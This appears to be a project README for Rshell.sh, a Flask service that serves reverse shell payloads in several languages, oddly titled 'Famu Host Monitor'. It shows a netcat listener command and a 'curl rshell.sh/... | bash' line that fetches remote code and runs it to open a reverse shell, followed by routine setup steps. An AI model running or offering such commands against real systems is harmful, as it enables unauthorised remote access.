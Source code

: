 # Famu Host Monitor

## Overview / How it works

This project is multi-language reverse shell payload generator written in
Python3 using the Flask web framework. The point is to make easy to quickly
pull down reverse shell payloads from the *cloud* ☁️  to your terminal using
`curl` or `wget`.

### Example Usecase

* Setup you listener:

```
nc -lvnp 1234
```

* Then query `[rshell.sh](https://rshell.sh)` to kick off the reverse shell:

```
curl rshell.sh/127.0.0.1/1234 | bash
```

## Languages Covered

* Bash
* Python
* Perl
* PHP
* Awk

See the project [help page](https://rshell.sh/help) for more information.

## Dev Site Install / Setup

The server-side setup is pretty straight forward and this is run just like any
other flask app. Of course the instructions below are for spinning up the dev
version. Production setup involves extra steps and depends on your hosting
environment.

* First clone the repo:

```
git clone github.com:BlueSquare23/Rshell.sh.git
```

* Then install the required python modules:

```
cd Rshell.sh
virtualenv venv				# Virtual Env Optional
source venv/bin/activate	# Virtual Env Optional
pip3 install -r requirements.txt
```

* Finally, run the project:

```
python3 app.py
```

## Technologies

* Language: [Python 3](https://www.python.org/)
* Web-Framework: [Flask](https://palletsprojects.com/p/flask/)

